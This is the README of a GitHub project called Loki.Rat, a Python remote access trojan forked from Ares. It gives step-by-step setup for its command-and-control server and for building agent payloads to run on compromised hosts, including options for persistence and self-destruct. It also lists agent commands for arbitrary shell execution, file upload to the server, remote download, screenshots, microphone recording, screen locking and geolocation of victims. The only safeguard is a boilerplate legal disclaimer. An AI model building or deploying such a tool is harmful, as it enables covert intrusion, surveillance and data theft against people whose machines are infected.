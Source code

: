 # Pegasus Loki.Rat
     

 ██▓███  ▓█████   ▄████  ▄▄▄        ██████  █    ██   ██████     ██▓     ▒█████   ██ ▄█▀ ██▓    ██▀███   ▄▄▄     ▄▄▄█████▓
▓██░  ██▒▓█   ▀  ██▒ ▀█▒▒████▄    ▒██    ▒  ██  ▓██▒▒██    ▒    ▓██▒    ▒██▒  ██▒ ██▄█▒ ▓██▒   ▓██ ▒ ██▒▒████▄   ▓  ██▒ ▓▒
▓██░ ██▓▒▒███   ▒██░▄▄▄░▒██  ▀█▄  ░ ▓██▄   ▓██  ▒██░░ ▓██▄      ▒██░    ▒██░  ██▒▓███▄░ ▒██▒   ▓██ ░▄█ ▒▒██  ▀█▄ ▒ ▓██░ ▒░
▒██▄█▓▒ ▒▒▓█  ▄ ░▓█  ██▓░██▄▄▄▄██   ▒   ██▒▓▓█  ░██░  ▒   ██▒   ▒██░    ▒██   ██░▓██ █▄ ░██░   ▒██▀▀█▄  ░██▄▄▄▄██░ ▓██▓ ░ 
▒██▒ ░  ░░▒████▒░▒▓███▀▒ ▓█   ▓██▒▒██████▒▒▒▒█████▓ ▒██████▒▒   ░██████▒░ ████▓▒░▒██▒ █▄░██░   ░██▓ ▒██▒ ▓█   ▓██▒ ▒██▒ ░ 
▒▓▒░ ░  ░░░ ▒░ ░ ░▒   ▒  ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░░▒▓▒ ▒ ▒ ▒ ▒▓▒ ▒ ░   ░ ▒░▓  ░░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓     ░ ▒▓ ░▒▓░ ▒▒   ▓▒█░ ▒ ░░   
░▒ ░      ░ ░  ░  ░   ░   ▒   ▒▒ ░░ ░▒  ░ ░░░▒░ ░ ░ ░ ░▒  ░ ░   ░ ░ ▒  ░  ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░     ░▒ ░ ▒░  ▒   ▒▒ ░   ░    
░░          ░   ░ ░   ░   ░   ▒   ░  ░  ░   ░░░ ░ ░ ░  ░  ░       ░ ░   ░ ░ ░ ▒  ░ ░░ ░  ▒ ░     ░░   ░   ░   ▒    ░      
            ░  ░      ░       ░  ░      ░     ░           ░         ░  ░    ░ ░  ░  ░    ░        ░           ░  ░        
                                                                                                                          

    
![Loki.Rat](https://github.com/sobri3195/pegasus-loki-rat/blob/master/Lokirat.jpg)

Loki.Rat is a fork of the [Pegasus Loki RAT](https://github.com/sobri3195/Ares), it integrates new modules, like recording , lockscreen , and locate options.
Loki.Rat is a Python Remote Access Tool.

# Join our Telegram Channel [Loki.Rat](https://t.me/cybersecuritydown)


[![How to Use Loki.Rat]

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.
![Loki.Rat](https://3.bp.blogspot.com/-hCo9eJTSH5Y/WknUCULBwUI/AAAAAAAAAtY/i08DjoFqwLUsmnXhI7e5YX9AJuZmrjitQCLcBGAs/s1600/1234.png)

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/sobri3195/pegasus-loki-rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 127.0.0.1 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 127.0.0.1:8080 --threads 20
 ```
 The server should now be accessible on http://127.0.0.1:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://127.0.0.1:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
![Pegasus-Loki.Rat]
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.
     
     record
          -h, --help            show this help message and exit
          -t RECORD_SECONDS, --time RECORD_SECONDS
                                Set a timing in seconds for record. (e.g 10)
          -c CHANNELS, --channel CHANNELS
                                Channel for the microphone (e.g 2).
          -ch CHUNK, --chunk CHUNK
                                Chunk for the microphone (e.g 1024).
          -r RATE, --rate RATE  Rate (e.g 44100).
          
     lockscreen
     lock screen only on windows and Linux with Gnome environnement
     
     Geolocalisation
     locate the target machine , and print the Latitude and Longitude
          
     help
     This help.
```

## Author
Muhammad Sobri Maulana - Pegasus Hacker
